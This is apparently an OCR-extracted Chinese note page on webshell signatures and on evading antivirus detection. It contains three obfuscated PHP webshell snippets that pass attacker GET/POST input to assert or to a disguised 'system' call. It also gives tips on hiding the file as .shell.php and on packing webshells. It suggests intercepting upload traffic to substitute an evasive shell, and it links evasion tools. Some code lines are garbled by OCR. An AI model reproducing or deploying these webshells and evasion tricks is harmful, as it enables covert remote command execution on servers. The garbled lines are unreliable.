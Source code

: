 

## **webshell文件特征**

主要是正常匹配一些敏感函数，和特征代码。

木马文件上传防静态查杀检测，做混淆：

```
<?php
  $a='b';
  $b=$GET['e'];
  $$a(SPOST['x']);
?>
//寻找绕过

<?php
  $a='b';
  $b='assert‘;
  $$a (base64_decode($_POST['x']);
  ?>


//
$XnEGfa = $_GET['Efa5BVG'] ?? ' ';
$aYunX = "sY";
$aYunX .= "stEmXnsTcx";
$aYunX = explode('Xn', $aYunX);
$kDxfM = new stdClass();
$kDxfM->gHht = $aYunX\[0];
($kDxfM->gHht)($XnEGfa);
```

木马文件名隐藏：
.shell.php在Linux中直接看隐藏看不到。

## **免杀方法**

<https://www.sqlsec.com/2020/07/shell.html>

Shielden进行webshell加壳。

弱鸡webshell免杀工具。

可以参考文章：<https://blog.csdn.net/guanjian_ci/article/details/139295929>
php解密：<https://decode.xiaojieapi.com/decode>
^
在一些工具一键上传文件马的时候可以抓包拦截，替换成免杀马。